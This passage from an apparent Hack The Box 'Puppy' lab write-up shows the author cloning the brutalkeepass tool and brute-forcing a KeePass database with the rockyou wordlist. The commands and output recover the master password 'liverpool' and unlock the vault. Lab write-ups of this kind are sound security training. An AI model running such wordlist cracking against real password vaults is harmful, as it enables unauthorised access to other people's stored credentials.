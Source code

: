 But then I found the `brutalkeepass` program written by `toneillcodes` on GitHub.  

This tool can be used to crack KeePassXC passwords by trying each password in a wordlist and then checking if the vault was unlocked with the password.  This is **much** slower than a John or Hashcat hash password crack, due to KeePassXC's built-in anti-brute-forcing mechanisms, but I didn't have any other choice but to test this tool.

I cloned the repo found from https://github.com/toneillcodes/brutalkeepass/, setup a Python virtual environment and installed the package dependencies/requirements.

```
fcoomans@kali:~/htb/puppy$ git clone https://github.com/toneillcodes/brutalkeepass.git
Cloning into 'brutalkeepass'...
remote: Enumerating objects: 63, done.
remote: Counting objects: 100% (63/63), done.
remote: Compressing objects: 100% (61/61), done.
remote: Total 63 (delta 17), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (63/63), 22.22 KiB | 4.44 MiB/s, done.
Resolving deltas: 100% (17/17), done.

fcoomans@kali:~/htb/puppy$ cd brutalkeepass

fcoomans@kali:~/htb/puppy/brutalkeepass$ python -m venv brutalkeepass

fcoomans@kali:~/htb/puppy/brutalkeepass$ . ./brutalkeepass/bin/activate

(brutalkeepass)fcoomans@kali:~/htb/puppy/brutalkeepass$ pip install -r requirements.txt
Collecting pykeepass==4.1.1.post1 (from -r requirements.txt (line 1))
```

Running the brute-force tool with the `rockyou.txt` wordlist, cracked the weak master password as `liverpool`.

```
(brutalkeepass)fcoomans@kali:~/htb/puppy/brutalkeepass$ python bfkeepass.py -d ../recovery.kdbx -w /usr/share/wordlists/rockyou.txt
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[*] Stopping bruteforce process.
[*] Done.
```

I unlocked the Password Vault with KeePassXC using the password `liverpool`.

![](images/Pasted%20image%2020250717142211.png)
